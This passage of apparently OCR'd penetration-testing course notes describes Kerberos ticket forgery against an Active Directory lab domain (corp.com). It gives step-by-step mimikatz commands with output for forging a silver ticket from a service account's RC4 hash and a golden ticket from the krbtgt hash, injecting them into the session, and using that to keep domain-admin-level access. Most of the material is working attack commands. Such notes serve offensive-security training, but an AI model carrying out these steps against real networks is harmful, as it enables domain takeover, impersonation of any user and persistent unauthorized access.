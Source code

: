 1. Obtain Security Identifier SID
```cmd
C:\>whoami /user
USER INFORMATION
----------------
User Name SID
=========== ==============================================
corp\offsec S-1-5-21-1602875587-2787523311-2599479668-1103
```
S-1-5-21-1602875587-2787523311-2599479668 remove last chars

2. Craft Silver Ticket

```powershell
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK
mimikatz # kerberos::list
mimikatz # kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
mimikatz # kerberos::list
[00000000] - 0x00000017 - rc4_hmac_nt
```
# Active Directory Persistence

## Golden Tickets

The KDC encrypts the TGT with a secret key known only to the KDCs in the 
domain. This secret key is actually the password hash of a domain user account called krbtgt
If we are able to get our hands on the krbtgt password hash, we could create our own self-made 
custom TGTs, or golden tickets.

Note: the krbtgt is not changed very often, which makes this method persistent

At this stage of the engagement, we should have access to an account that is a member of the 
Domain Admins group or we have compromised the domain controller itself.

Creating the golden ticket and injecting it into memory does not require any administrative 
privileges, and can even be performed from a computer that is not joined to the domain. We’ll 
take the hash and continue the procedure from a compromised workstation.

```powershell
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK
mimikatz # kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-
2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt
User : fakeuser
Domain : corp.com (CORP)
SID : S-1-5-21-1602875587-2787523311-2599479668
User Id : 500
Groups Id : \*513 512 520 518 519
ServiceKey: 75b60230a2394a812000dbfad8415965 - rc4_hmac_nt
Lifetime : 14/02/2018 15.08.48 ; 12/02/2028 15.08.48 ; 12/02/2028 15.08.48
-> Ticket : \*\* Pass The Ticket \*\*
\* PAC generated
\* PAC signed
\* EncTicketPart generated
\* EncTicketPart encrypted
\* KrbCred generated
Golden ticket for 'fakeuser @ corp.com' successfully submitted for current session
mimikatz # misc::cmd
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 012E3A24
```
